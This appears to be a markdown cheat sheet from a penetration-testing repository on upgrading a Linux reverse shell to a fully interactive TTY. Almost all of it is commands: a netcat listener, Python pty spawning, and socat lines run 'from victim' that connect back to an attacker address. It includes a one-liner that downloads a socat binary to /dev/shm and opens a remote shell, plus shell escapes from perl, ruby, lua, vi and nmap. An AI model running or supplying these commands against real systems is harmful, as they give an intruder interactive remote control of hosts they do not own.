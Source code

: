 # Upgrade a linux reverse shell to a fully usable TTY shell
> Note: To check if the shell is a TTY shell use the tty command.
## rlwrap
You can mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the **rlwrap** command.
```console
rlwrap nc -nlvp 8888
```
## python
```console
which python python2 python3    
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```
## socat
> Socat needs to be on both machines for this to work. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)
```bash
#Create Listener on attack platform:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#From Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444

#socat one-liner
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```
## Other
```console
echo os.system('/bin/bash')

/bin/sh -i

#perl
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"

# (From within IRB)
exec "/bin/sh"

# (From within vi)
:!bash

# (From within vi)
:set shell=/bin/bash:shell

# (From within nmap)
!sh

# In Kali or elsewhere
$ echo $TERM
$ stty -a

$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
